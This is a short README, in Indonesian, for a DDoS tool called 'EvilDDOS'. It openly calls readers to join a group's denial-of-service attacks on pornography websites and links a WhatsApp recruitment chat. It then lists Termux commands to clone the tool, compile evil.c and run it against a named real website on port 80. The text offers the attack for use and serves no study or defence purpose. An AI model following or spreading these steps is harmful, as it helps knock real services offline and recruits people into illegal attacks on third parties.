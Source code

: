 # EvilDDOS

TERUS MELUNCURKAN SERANGAN DDOS TERUTAMA SITUS" PORN,
AYO GABUNG BERSAMA MELAKUKAN SERANGAN DDOS TERHADAP SITUS-SITUS PORN SALAM FROM MEMBER CYBER PHOENIX🙏

AYO GABUNG DI GROUP Evil Muslim Cyber https://chat.whatsapp.com/Io4AGKjEOYh7X6ZCPWjGKH

```$ pkg update && pkg upgrade

$ pkg install python2

$ pkg install git

$ pkg install clang

$ git clone https://github.com/story19/EvilDDOS

$ cd EvilDDOS

$ clang evil.c -o evil

$ chmod +x evil

$ ./evil www.xnxx.com 80
